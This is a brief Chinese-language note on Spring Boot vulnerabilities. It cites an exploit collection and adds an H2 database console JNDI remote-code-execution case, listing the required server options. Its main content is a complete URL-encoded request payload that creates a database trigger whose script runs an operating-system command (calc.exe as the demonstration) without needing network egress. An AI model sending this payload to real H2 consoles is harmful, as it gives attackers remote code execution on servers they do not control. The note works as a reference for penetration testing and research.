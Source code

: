 # Springboot 漏洞

参考：https://github.com/LandGrey/SpringBootVulExploit
写的非常全.

**该系列漏洞主要是通过env的配置接口进行配置，刷新或者重启触发漏洞**

补：0x07：h2 database console JNDI RCE

限制：
开启 -webAllowOthers 选项，支持外网访问
开启 -ifNotExists 选项，支持创建数据库

不需要出网利用:
```
language=en&setting=Generic+H2+%28Embedded%29&name=Generic+H2+%28Embedded%29&driver=org.h2.Driver&url=jdbc%3ah2%3amem%3atest%3bMODE%3dMSSQLServer%3binit%3dCREATE+TRIGGER+shell3+BEFORE+SELECT+ON+INFORMATION_SCHEMA.TABLES+AS+$$//javascript%0a%0ajava.lang.Runtime.getRuntime().exec('cmd+/c+calc.exe')$$&user=sa&password=
```
